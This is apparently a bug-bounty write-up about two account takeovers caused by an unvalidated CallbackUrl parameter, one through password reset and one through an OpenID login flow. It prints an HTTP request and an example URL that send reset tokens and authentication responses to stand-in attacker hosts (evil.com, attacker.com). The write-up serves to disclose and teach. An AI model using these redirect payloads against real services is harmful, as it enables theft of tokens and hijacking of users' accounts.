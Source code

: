 # How a Single Parameter Led to Two ATO Cases

Hey guys, Today, I'm excited to share an intriguing story about how a **single parameter** in an application led to two account takeover cases and earned me a **four-digit bounty**. The program is a private one on HackerOne, and I was among the first few hackers to get invited. I'll explain two bugs I found here. Both account takeover (**ATO**) cases are one-click exploits, meaning the victim only needed to perform a single interaction.

![Excited GIF](/images/excited.gif)

## Weakness in the Password Reset Functionality

I was testing the password reset functionality of this application and discovered an interesting parameter called `CallbackUrl` from the password reset request.

\`\`\`http
POST /auth/resetpassword HTTP/2
Host: api.example.com
User-Agent: Mozilla/5.0
Accept: application/json
Content-Type: application/json
Origin: https://app.example.com
Referer: https://app.example.com

{"Email":"victim@example.com","CallbackUrl":"https://evil.com/auth/reset-password"}
\`\`\`

When a user requests a password reset link, the server sends a request to the specified email with a password reset link that contains a token. However, I discovered that if an attacker changes the request parameter `CallbackUrl` to a domain that they control, the password reset link will be sent like `attacker.domain.com/auth/reset-password?token=token` to the user's email. **This means that the attacker can obtain the password reset token when the user clicks the link and use it to take over the user's account.**

![Password Reset Flow](/images/password-reset-flow.png)

**I reported the issues, and they marked the report as high severity and rewarded me with a $$$$ digit bounty.**

![Happy GIF](/images/happy.gif)

This discovery sparked my curiosity to dig deeper into the platform. I searched the application JavaScript for corresponding parameters and found that the same parameter is used in the **application's OAuth flow**.

## Account Takeover via Misconfigured OpenID

During my testing on the **OAuth** mechanism of the application, I got another security flaw that could potentially lead to One click account takeover. This vulnerability stems from a misconfiguration in the **OpenID** implementation, specifically in the `callbackUrl` parameter used in the authentication flow with various identity providers.

I discovered that an attacker could exploit this misconfiguration by manipulating the `callbackUrl` parameter by redirecting it to an attacker-controlled domain, malicious actors could intercept the authentication process and potentially gain unauthorized access to user accounts.

**For example:**

- Google: `https://api.example.net/openid/google?callbackUrl=https://attacker.com/auth/register`

Initiating the authentication process with the respective provider results in the authentication response being redirected to the **attacker's domain**.

Exploiting this vulnerability allows attackers to intercept authentication responses, potentially obtaining access tokens. The authentication response is redirected to the **attacker-controlled domain** specified in the modified `callbackUrl` parameter.

After reporting the issue, the team responded by explaining that they considered the reported vulnerability as part of the **previous** `callbackUrl` **fix**. They emphasized that their policy only allows for one bounty payment per bug and considered **duplicates** unacceptable. Despite their explanation, I reiterated my findings, emphasizing that the vulnerability persisted specifically in the `callbackUrl` of the Auth0 endpoint. I acknowledged their efforts in resolving the previous bug but urged them to consider this as a separate issue due to its potential risk of account takeover.

![HackerOne Discussion](/images/hackerone-discussion.png)

Following internal discussions, the team ultimately recognized the severity of the vulnerability and awarded me another **$$$$ digit bounty along with an exclusive swag pack** as a token of appreciation for bringing it to their attention.

![Success GIF](/images/success.gif)

**Thanks for taking the time to read through the write-up, and stay tuned for more insights and discoveries in the future**

